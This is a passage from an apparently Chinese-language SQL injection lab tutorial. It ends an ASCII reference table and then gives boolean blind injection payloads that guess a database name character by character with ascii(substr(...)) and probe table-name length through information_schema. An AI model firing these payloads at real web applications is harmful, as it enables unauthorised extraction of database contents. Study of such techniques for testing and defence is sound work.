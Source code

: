 | 01101101 |  109   |    6D    |                      m                       |                                    |
| 01101110 |  110   |    6E    |                      n                       |                                    |
| 01101111 |  111   |    6F    |                      o                       |                                    |
| 01110000 |  112   |    70    |                      p                       |                                    |
| 01110001 |  113   |    71    |                      q                       |                                    |
| 01110010 |  114   |    72    |                      r                       |                                    |
| 01110011 |  115   |    73    |                      s                       |                                    |
| 01110100 |  116   |    74    |                      t                       |                                    |
| 01110101 |  117   |    75    |                      u                       |                                    |
| 01110110 |  118   |    76    |                      v                       |                                    |
| 01110111 |  119   |    77    |                      w                       |                                    |
| 01111000 |  120   |    78    |                      x                       |                                    |
| 01111001 |  121   |    79    |                      y                       |                                    |
| 01111010 |  122   |    7A    |                      z                       |                                    |
| 01111011 |  123   |    7B    |                      {                       |                                    |
| 01111100 |  124   |    7C    |                      \|                      |                                    |
| 01111101 |  125   |    7D    |                      }                       |                                    |
| 01111110 |  126   |    7E    |                      ~                       |                                    |
| 01111111 |  127   |    7F    |                 DEL (Delete)                 |                删除                |



+ 同样通过注入以下语句根据返回页面正确与否测试数据库名的后面几个字符

~~~ shell
?id=1" and ascii(substr((select database()),2,1))>101--+
?id=1" and ascii(substr((select database()),3,1))>101--+
?id=1" and ascii(substr((select database()),4,1))>101--+
?id=1" and ascii(substr((select database()),5,1))>101--+
...
~~~



+ 注入以下语句爆破联合数据表名长度

~~~ shell
?id=1" and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>5 --+
~~~
